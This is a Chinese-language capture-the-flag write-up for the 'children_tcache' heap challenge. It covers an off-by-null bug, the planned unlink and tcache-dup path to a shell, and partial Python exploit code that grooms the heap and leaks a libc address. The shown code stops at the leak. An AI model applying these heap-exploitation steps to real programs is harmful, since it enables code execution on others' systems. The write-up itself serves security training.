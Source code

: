    ![image-20240728115539062](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407281155173.png)



## 例题2：children_tcache

题目地址：[children_tcache](https://buuoj.cn/challenges#hitcon_2018_children_tcache)

### 思路：

1. 利用off_by_one创造unlink从而free向后合并，实现chunk之间的重叠，从而泄漏main_arena中的地址。
1. 利用tcache dup实现任意地址分配chunk，进而实现任意地址写数据 ==> 用one_gadget覆盖malloc_hook，从而getshell。

### 分析：

1. 只有添加、显示、删除三个函数，add函数，其中的read函数存在off_by_null漏洞，会在输入的字符串最后加上00：

   ![image-20240720153857815](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407201538926.png)

2. delete函数，清空堆指针，没有UAF漏洞，并且chunk在free后会根据申请的大小填充满0xda（在利用off_by_null构造unlink时prev_size中的0xda要消去）：

   ![image-20240720154020559](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407201540650.png)

3. show函数，结合delete用函数，同样不存在UAF，会输出堆指针指向的内容：

   ![image-20240720154224685](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407201542771.png)

### 利用：

1. 因为存在tcache，并且在tcache中的chunk时不能合并的（unlink），所以要申请**大于0x410的chunk**，释放后才能进入unsortedbin。申请**一个0x410的chunk**和**一个0x500的chunk**，用来实现unlink，另外在两个chunk中间申请一个**0x10的chunk，来创造unlink**，并最后输出泄漏的main_arena中的地址：

   ```python
   add(0x410,'s')	#0 实现unlink
   add(0x18,'k')	#1 创建unlink
   add(0x4f0,'y')	#2 触发unlink
   add(0x20,'e')	#3 防止合并
   ```

   ![image-20240720155835791](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407201558944.png)

2. 利用chunk1创建unlink：清空chunk2的prev_inuse位，在prev_size位伪造大小：

   ```python
   free(0) #为unlink做准备
   
   #清空chunk2的prev_inuse位，并伪造prev_size位，利用循环将prev_size位中的高位清空
   free(1)
   for i in range(0,9):
       add(0x18-i,b"a"*(0x18-i))   #0
       free(0)
   
   payload0 = b"a"*0x10+p64(0x420+0x20)
   add(0x18,payload0)  #申请一个与chunk0同样大小的堆，将合并后的chunk0中的main_arena地址推到chunk1中输出
   
   # 泄漏libc地址
   free(2)
   add(0x410,b"libc leak") #1
   show(0)
   
   p.recv()
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   ```